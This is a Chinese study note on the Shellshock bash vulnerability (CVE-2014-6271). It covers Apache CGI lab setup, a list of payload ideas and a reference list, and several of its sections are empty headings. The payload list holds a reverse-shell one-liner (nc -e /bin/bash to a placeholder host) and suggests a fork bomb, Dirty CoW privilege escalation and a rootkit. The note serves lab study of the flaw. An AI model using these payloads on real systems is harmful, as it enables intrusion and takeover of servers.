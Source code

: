 ```yaml
---
title: CVE-2014-6271
category: Sec
---
```


## ShellShock

### 基本信息

### 测试

#### 涉及到的 CGI 知识

这是一个 bash 漏洞，但是相关的攻击往往是远程，借助 CGI 发起的。所以关于 CGI 的相关知识要介绍一下（详细的协议可以学习第十三个参考链接）。

#### Pwn

自己写简单的 CGI 进行测试时要注意默认情况下 Apache2 的 CGI 路径为 /usr/lib/cgi-bin/ 。把你的 CGI 脚本放进去，并检查一下 /etc/apache2/mods-enabled/ 下有没有 cgi.load 、 cgid.load 、 cgid.conf 这三个配置文件，没有，则说明你的 Apache2 默认没有启用 CGI ，这时候你尝试访问 localhost/cgi-bin/myprog.cgi 是失败的。需要把 /etc/apache2/mods-available/ 下的三个文件链接到 /etc/apache2/mods-enabled/ 下（刚刚提到的那三个）：

```
ln -s /etc/apache2/mods-available/cgi.load /etc/apache2/mods-enabled/cgi.load
ln -s /etc/apache2/mods-available/cgid.load /etc/apache2/mods-enabled/cgid.load
ln -s /etc/apache2/mods-available/cgid.conf /etc/apache2/mods-enabled/cgid.conf
```

注意，在链接时不要使用相对路径。

另外还有 CVE-2014-7169, CVE-2014-6277, CVE-2014-6278 。一切都是因为 6271 的补丁存在漏洞。

#### 姿势

有了 PoC ，替换一下攻击载荷就能够有千百种看脑洞的姿势了。比如：

- 反向连接出来一个 shell `nc -e /bin/bash xxx.xxx.xxx.xxx xxxx`
- 放一个 ++[Fork bomb](http://www.00100011f.cc/237/)++ （我在虚拟机上测试了下，有效）
- 一般 Apache2 是以 www-data 用户运行的，所以在第一个姿势完成后，就要想办法提权了，比如 Dirty CoW ？（留个坑，可以尝试一下）
- 按照渗透测试走，这里就该后渗透阶段了。上个 rootkit 什么的，总之姿势很多

### 总结

网上有同学说这个漏洞的锅不应该让 bash 来背，是服务器程序直接把用户的输入交给 bash 处理导致的。经过研究，我认为这的确是 bash 的原因。如上所述，它的语法解析逻辑存在问题。很明显，既然是定义环境变量，那么从这个意义上讲，环境变量只能作为一个数据存在，而不应该成为指令执行。

### 参考

- [mubix/shellshocker-pocs](https://github.com/mubix/shellshocker-pocs)
- [hannob/bashcheck](https://github.com/hannob/bashcheck)
- [DanMcInerney/shellshock-hunter](https://github.com/DanMcInerney/shellshock-hunter)
- [Bash 3.0-4.3命令执行漏洞分析](http://blog.knownsec.com/2014/09/bash_3-0-4-3-command-exec-analysis/)
- 《“破壳”漏洞深度剖析》by 郭瑞
- *Shellshock Vulnerability* by Tudor Enache  (OWASP)
- *SEED Labs – Shellshock Attack Lab*
- [Bash 漏洞是什么级别的漏洞，有什么危害，具体如何修复？ (知乎)](https://www.zhihu.com/question/25522948?rf=25539470)
- [从语法解析角度分析Bash破壳漏洞 ](http://www.freebuf.com/articles/web/45520.html)
- [SEED实验系列：ShellShock攻击实验](http://www.freebuf.com/articles/network/62622.html)
- [破壳（ShellShock）漏洞样本分析报告 ](http://www.freebuf.com/articles/system/45390.html)
- [The Common Gateway Interface (CGI) Version 1.1](http://www.ietf.org/rfc/rfc3875)
- CVE-2014-6271资料汇总 （来自乌云，怀念乌云）